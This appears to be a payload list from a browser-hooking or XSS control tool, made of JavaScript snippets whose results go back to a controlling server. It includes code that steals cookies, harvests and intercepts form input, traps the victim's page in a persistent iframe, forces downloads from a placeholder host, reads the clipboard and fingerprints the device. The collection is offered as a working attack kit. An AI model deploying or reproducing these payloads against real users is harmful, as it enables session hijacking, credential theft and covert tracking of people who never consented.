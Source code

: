 # Default
#### Grab cookies
```javascript
data=document.cookie;
```
#### Get location url
```javascript
data = document.location.href;
```
#### Get os and cpu info
```javascript
data = navigator.platform;
```
#### Vibrate for one second
###### Only for mobile devices
```javascript
navigator.vibrate(1000); data=0;
```
#### Get misc info (better for mobile)
```javascript
data="vendor: "+navigator.vendorSub+","+navigator.vendor+";Product: "+navigator.productSub+";Core: "+navigator.hardwareConcurrency+";maxTouchPoints: "+navigator.maxTouchPoints;
```
#### Send popup message
```javascript
alert('text'); data=0;
```
#### Grab all inputs from all forms:
```javascript
var kvpairs = [];
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
}
data = kvpairs.join("&");
```

#### Get information about plugins
```javascript
data = JSON.stringify(navigator.plugins);
```

#### Get browser information
```javascript
data = navigator.appName+" "+navigator.appCodeName+" "+navigator.appVersion;
```
#### Enumerate navigator properties
```javascript
data="";for (var p in navigator) data+=p.toString()+";";
```
#### Get screen information
```javascript
data="width: "+screen.width+",height: "+screen.height+",colorDepth: "+screen.colorDepth+",pixelDepth: "+screen.pixelDepth;
```
#### Get battery information
```javascript
var Battery=function(){function s(e){n=e,i(n)}function o(t){for(var n in e.split(" "))t.addEventListener(n,s)}var e="chargingchange chargingtimechange dischargingtimechange levelchange",t=navigator.battery||navigator.mozBattery||navigator.getBattery,n=null,r=function(){},i=function(){};return self.getStatus=function(e){n==="not supported"?e(null,n):n?e(n):r=e},self.onUpdate=function(e){i=e},t instanceof Function?t.call(navigator).then(function(e){n=e,r(n),o(n)},function(){n="not supported"}):t?(n=t,o(t)):n="not supported",self}(Battery||{});
Battery.getStatus(function(status, error) {
  if(error) {
    console.error('Battery status is not supported');
    return;
  }
  data='Level: ' + Math.floor(status.level * 100) + '%;Charging: ' + status.charging+';Time until charged: ' + status.chargingTime+';Battery time left: ' + status.dischargingTime;
});
```
#### Delete client registration
```javascript
eraseCookie('_uidk'); localStorage.clear(); data=0;
```
#### Iframe jail
```javascript
document.body.innerHTML = "<div style='padding:0;margin:0;border:none;width:100%;height:100%;position:absolute;left:0;top:0;overflow:hidden;'><iframe id='ifrm' onload='window.history.replaceState(null, null, this.contentWindow.location.href);' style='padding:0;margin:0;border:none;width:100%;height:100%;left:0;top:0;' src='"+document.location.href+"'></iframe></div>"; data='captured';
```
#### Force (every kind of) file to be downloaded (html5)
```javascript
var fdwnl = document.createElement("a"); fdwnl.href='http://yoursite.com/yourfile.html'; fdwnl.id='fdwnl'; var dwn=document.createAttribute('download');fdwnl.setAttributeNode(dwn); fdwnl.click();
```
#### Force an update of the client information retrieved server side
```javascript
eraseCookie('_uidku');data=0;
```
#### Intercept forms submit
```javascript
var iframe = document.getElementById("ifrm");
if (iframe != null)
    var doc = iframe.contentDocument;
else
    var doc = document;
var forms = doc.getElementsByTagName("form");
for (var j = 0;j < forms.length;j++) {
    var form = forms[j];
    form.onsubmit = function(){ inthandler(this); }
}
function inthandler(form) {
    var kvpairs = [];
    data = "form submitted! id="+form.id+"&name="+form.name+"&method="+form.method+"&action="+form.action+"&";
    for ( var i = 0; i < form.elements.length; i++ ) {
       var e = form.elements[i];
       kvpairs.push(encodeURIComponent(e.name) + "=" + encodeURIComponent(e.value));
    }
    data = kvpairs.join("&");
    /* Force to send data instantly */
    reloadjs(uid,data);
}
```
# Extra
#### Detect installed font (and the os)
```javascript
var Detector = function() {
		// a font will be compared against all the three default fonts.
		// and if it doesn't match all 3 then that font is not available.
		var baseFonts = ['monospace', 'sans-serif', 'serif'];

		//we use m or w because these two characters take up the maximum width.
		// And we use a LLi so that the same matching fonts can get separated
		var testString = "mmmmmmmmmmlli";

		//we test using 72px font size, we may use any size. I guess larger the better.
		var testSize = '72px';

		var h = document.getElementsByTagName("body")[0];
		// create a SPAN in the document to get the width of the text we use to test
		var s = document.createElement("span");
		s.style.fontSize = testSize;
		s.innerHTML = testString;
		var defaultWidth = {};
		var defaultHeight = {};

		for (var index in baseFonts) {
		    //get the default width for the three base fonts
		    s.style.fontFamily = baseFonts[index];
		    h.appendChild(s);
		    defaultWidth[baseFonts[index]] = s.offsetWidth; //width for the default font
		    defaultHeight[baseFonts[index]] = s.offsetHeight; //height for the defualt font
		    h.removeChild(s);
		}

		function detect(font) {
		    var detected = false;
		    for (var index in baseFonts) {
		        s.style.fontFamily = font + ',' + baseFonts[index]; // name of the font along with the base font for fallback.
		        h.appendChild(s);
		        var matched = (s.offsetWidth != defaultWidth[baseFonts[index]] || s.offsetHeight != defaultHeight[baseFonts[index]]);
		        h.removeChild(s);
		        detected = detected || matched;
		    }
		    return detected;
		}
		this.detect = detect;
	}
var fonts = [];
var d = new Detector();
/* Windows fonts */
fonts.push("Georgia"); fonts.push("Times New Roman"); fonts.push("Tahoma"); fonts.push("Verdana");
/* MAC fonts */
fonts.push("Apple Chancery"); fonts.push("Apple Symbols"); fonts.push("Apple Braille");
/* Linux fonts */
fonts.push("Helvetica"); fonts.push("Utopia"); fonts.push("FreeMono"); fonts.push("FreeSerif");
data="";
for (i = 0; i < fonts.length; i++) {
    if(d.detect(fonts[i])) data += fonts[i]+";";
}
```
#### Get memory information
###### Supported only by some old browser
```javascript
data = "totalJSHeapSize="+console.memory.totalJSHeapSize+";jsHeapSizeLimit="+console.memory.jsHeapSizeLimit+";usedJSHeapSize="+console.memory.usedJSHeapSize;
```
#### Get GPU information
##### Supported only by some (probably old) browser
```javascript
var canvas = document.createElement("canvas");
gl = canvas.getContext("experimental-webgl");
data = "GPU: "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_RENDERER_WEBGL)+" "+gl.getParameter(gl.getExtension("WEBGL_debug_renderer_info").UNMASKED_VENDOR_WEBGL);
```
#### Get text in the clipboard
###### Only for IE, ask for permission
```javascript
data=window.clipboardData.getData('Text');
```

